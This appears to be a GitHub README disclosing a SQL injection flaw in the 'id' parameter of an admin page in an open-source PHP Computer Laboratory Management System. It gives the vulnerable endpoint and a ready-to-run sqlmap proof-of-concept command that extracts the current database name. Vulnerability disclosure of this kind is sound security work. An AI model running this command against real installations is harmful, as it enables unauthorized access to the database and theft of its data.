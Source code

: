 
# Computer-Laboratory-Management-System-SQLi-PoC
+ Exploit Author: Emirhan Mutlu
# Vendor Homepage
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Software Link
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Overview
+ A SQL Injection vulnerability in Computer Laboratory Management System allows attackers to execute arbitrary SQL commands on the database server and exfiltrate sensitive data.
# Vulnerability Details
+ Vulnerable Endpoint: /php-lms/admin/category/view_category.php?id=1
+ Parameter: id
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries and gaining unauthorized access to the database.

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/php-lms/admin/category/view_category.php?id=1"--data "id=1"  --batch --level 5 --risk 3 --dbms=mysql --threads 10 --current-db`
